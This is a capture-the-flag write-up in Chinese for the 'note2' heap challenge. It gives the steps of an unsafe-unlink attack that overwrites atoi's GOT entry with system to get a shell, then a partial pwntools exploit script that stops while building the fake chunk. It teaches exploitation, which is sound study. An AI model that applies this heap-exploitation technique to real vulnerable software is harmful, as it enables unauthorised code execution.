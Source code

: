 #### 思路
1. 申请一个用于伪造fakechunk，触发unlink的chunk
2. 申请一个size为0，用于溢出的chunk
3. 申请一个用于覆盖prev_inuse和prev_size，free后找fakechunk合并的chunk
4. free掉第二个chunk，重新申请回来用于溢出
5. free掉第三个chunk，触发unlink
6. 此时我们已将ptr处的指针改为ptr-0x18，利用edit函数修改ptr为atoi_got(这里只能修改一个，因为edit函数遇到'\0'会截断)
7. show泄露atoi_got，进而泄露libc_base
8. 修改atoi_got为system函数地址，再输入'/bin/sh\x00'即可获取shell

#### exp
```python
from pwn import *

p = process('./note2')

note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']

def alloc(length, content):
    p.recvuntil(b'option--->>')
    p.sendline(b'1')
    p.recvuntil(b'(less than 128)')
    p.sendline(str(length).encode())
    p.recvuntil(b'content:')
    p.sendline(content)

def show(id):
    p.recvuntil(b'option--->>')
    p.sendline(b'2')
    p.recvuntil(b'note:')
    p.sendline(str(id))

def edit(id, choice, s):
    p.recvuntil(b'option--->>')
    p.sendline(b'3')
    p.recvuntil(b'note:')
    p.sendline(str(id).encode())
    p.recvuntil(b'2.append]')
    p.sendline(str(choice).encode())
    p.sendline(s)

def delete(id):
    p.recvuntil(b'option--->>')
    p.sendline(b'4')
    p.recvuntil(b'note:')
    p.sendline(str(id).encode())

p.recvuntil(b'name:')
p.sendline(b'hello')
p.recvuntil(b'address:')
p.sendline(b'hello')

ptr = 0x602120

fakechunk  = p64(0)
fakechunk += p64(0x40)
fakechunk += p64(ptr-0x18)
fakechunk += p64(ptr-0x10)
fakechunk += b'a'*0x20
```